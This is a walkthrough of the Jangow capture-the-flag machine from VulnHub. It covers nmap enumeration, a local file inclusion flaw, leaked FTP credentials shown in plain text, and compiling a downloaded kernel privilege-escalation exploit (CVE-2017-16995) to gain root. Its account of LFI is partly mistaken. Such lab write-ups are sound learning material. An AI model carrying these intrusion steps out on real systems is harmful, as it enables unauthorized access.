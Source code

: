 # JANGOW-1.0.1-Walkthrough-Vulnhub
Walkthrough and exploitation steps for the Jangow CTF machine from VulnHub.
## VulnHub CTF — Jangow Walkthrough

This is a walkthrough for the **Jangow** machine from VulnHub. It covers the entire exploitation process, including enumeration, LFI, credential discovery, privilege escalation, and finally rooting the machine.

---

### 1.Setup

- Import the `.ova` file into VirtualBox.
- Run the machine.
- Use `netdiscover` to identify its IP:

```bash
netdiscover -i eth0
```
## Result

![](images/netdiscover.png)

I discovered the machine at `192.168.1.122`.

---
![](images/site.png)
### 2.Port Scanning with Nmap

Initial port scan:

```bash
nmap 192.168.1.122
```
## Nmap Scan Result

![Nmap Output](images/nmap.png)
Open ports:
- **80 (HTTP)**
- **21 (FTP)**
  
We see that ports 80 and 21 are open. 80 is an HTTP website port, while 21 is an FTP file transfer port. Now let's use nmap to scan them in detail. Command: nmap -p 80,21 -Pn -n -sC -sV -oN nmaptaramasi.txt 192.168.1.122

Detailed scan:

```bash
nmap -p 80,21 -Pn -n -sC -sV -oN nmap_scan.txt 192.168.1.122
```
[Output](images/nmap2.png)

**Flags used:**
- `-p`: specific ports
- `-Pn`: skip host discovery
- `-n`: skip DNS resolution
- `-sC`: run default scripts
- `-sV`: detect service versions
- `-oN`: save output to file

---

### 3.Web Enumeration

Visiting `http://192.168.1.122` reveals a website with a **"Buscar"** tab, which redirects to:

```
https://pwnlab.me/redirect?to=aHR0cDovLzE5Mi4xNjguNTYuMTE4L3NpdGUvYnVzcXVlLnBocD9idXNjYXI9
```
[Output](images/site2.png)
[Output](images/buscar.png)

This link appears vulnerable to **Local File Inclusion (LFI)**. LFI allows us to upload files remotely. Since the machine is currently running locally, it's local, of course. If it can be uploaded to a remote server, it's RFI. Since I'm running the machine locally, I'll exploit LFI. 

##Local File Inclusion (LFI)
Local File Inclusion (LFI) is a web browser option that enables an attacker to include files on a server. When a web application contains a file before correctly filtering the input, this vulnerability occurs, allowing an attacker to modify the input, insert jump characters from the route, and provide other files from the webserver. It typically affects PHP applications.
By manipulating the URL, we can inspect the file structure and extract sensitive files.

---

### 4.Credential Discovery

Exploring the web root:

```bash
pwd
# /var/www/html/site

ls -all
```
[Output](images/site4.png)

Found a hidden file: `.backup`  
Contents of `.backup` reveal **MySQL credentials**. .backup has read and write permissions.
Also, since FTP port is open, I tested those credentials on the FTP service.

---
[Output](images/site5.png)

### 5.FTP Access & File Upload

Login to FTP using:

```bash
ftp 192.168.1.122
```

Credentials:
```
Username: jangow01
Password: abygurl69
```
[Output](images/jangow.c.png)

We've now learned that we can put files inside. We'll try navigating to different directories and using the "put" command. Our goal here is to run the exploit we've installed and become root. To do this, we'll use Local Privilege Escalation. I'll go to my home directory and enter the directory named "jangow01."
Change to the user's home directory:

```ftp
cd /home/jangow01
```
```ftp
ls -all
```
[Output](images/site6.png)
Download the user flag:

```ftp
get user.txt
```
[Output](images/user.txt2.png)
---

### 6.Privilege Escalation

Check the kernel version:

```bash
uname -a
# Linux jangow01 4.4.0-31-generic
```
[Output](images/jangow.png)
[Output](images/jangow2.png)

Search for privilege escalation exploits and found:  
**CVE-2017-16995**
Downloaded and saved the exploit as `jangow.c`.
https://www.exploit-db.com/exploits/45010

Upload it via FTP:

```ftp
put jangow.c
```
[Output](images/jangow4.png)
---

### 7.Compilation & Exploitation

On the Jangow machine:
Now let's compile and assemble the .c file using the gcc command: gcc jangow.c -o jangow
Now to make it executable: chmod +x jangow
Then execute the script: ./jangow

```bash
gcc jangow.c -o jangow
chmod +x jangow
./jangow
```
[Output](images/jangow5.png)
Now you're root!

---

###8.Root Flag

Check the user:

```bash
whoami
# root
```

```bash
ls /root
cat /root/proof.txt
```
[Output](images/jangow6.png)
Get the flag:

**Machine successfully rooted!** 
